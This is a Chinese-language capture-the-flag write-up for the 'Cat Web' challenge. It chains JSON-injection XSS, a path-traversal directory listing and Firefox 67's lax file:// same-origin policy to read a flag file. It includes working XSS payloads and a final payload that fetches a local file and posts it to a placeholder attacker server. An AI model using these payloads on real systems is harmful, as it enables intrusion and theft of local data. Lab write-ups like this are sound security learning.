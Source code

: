 # Cat Web

很有趣的一道题。

1. XSS

    首页通过请求`/cats`得到猫猫图列表，首先测试可以发现`/cats`返回的json没有转义，用引号即可逃逸出去。因为首页js里写了判断需要返回`'status':'ok'`，这里重新写一遍即可覆盖掉之前的值。我们可以伪造一个`contents`数组，即可在首页执行任意代码。

    ```
    GET /cats?kind=black","status":"ok","content":["\"%20/><img%20src=x%20onerror=\"alert(1)\"%20/>"],"cat":"

    > {"status": "error", "content": "black","status":"ok","content":["\" /><img src=x onerror=\"alert(1)\" />"],"cat":" could not be found"}
    ```

    不过拿这个去report，发现并没有拿到任何cookie，说明要通过其他方式拿到flag。

2. 目录穿越

    题目给了提示，得到flag的位置是题目的一部分。我们从现有的接口来找突破口，不难发现`/cats`这里还存在任意列目录：

    ```
    GET /cats?kind=../templates

    > {"status": "ok", "content": ["report.html", "index.html", "flag.txt"]}
    >s
    ```

    Flag原来猫在这里。那么怎么得到它呢？最先想到的是SSTI，但是能输入的地方测试后发现不行。在机器上逐个目录检查，也没有发现本机在内网中开了其他服务。这个report意义何在呢？既然没有限制report的路径，那么说明还是要结合这个XSS获取到域内某些特定的信息。

3. Firefox 67 file:// 同源策略利用

    根据服务器打过来的user-agent，我们发现服务端用的是selenium，后端是Firefox 67，比较老的版本。查询一下68相比67修补的漏洞，发现一个比较有趣的帖子：[Treating file: URIs as unique origins](https://bugzilla.mozilla.org/show_bug.cgi?id=1500453)。简单地讲，就是当浏览file:///uri下的网页时，其相同文件夹下，以及子文件夹下的文件都会被视为同源，可以作为src或被js获取到。这样的问题是比较容易被坏人利用，比如将html下载到/user/Downloads文件夹后，打开这个html，其内部的恶意代码便可获取到该文件夹下所有内容。所以在Firefox 68中采用了更严格的策略。

    那么我们怎么利用这个问题呢，可以注意到，和flag.txt相同文件夹下有index.html，而其中对`http://catweb.zajebistyc.tf/cats`的请求又是写死的，我们的xss payload依旧可以使用。这使得我们可以通过js读本地文件flag.txt，再发给我们自己。

    构造下面的url，然后report即可得到flag。

    ```
    file:///app/templates/index.html?black","status":"ok","content":["\" /><img src=x onerror=\"fetch('file:///app/templates/flag.txt').then(function(s){s.body.getReader().read().then(function(s){$.post('http://vps:port/',String(s.value))})})\" />"],"cat":"#
    ```

    `p4{can_i_haz_a_piece_of_flag_pliz?}`
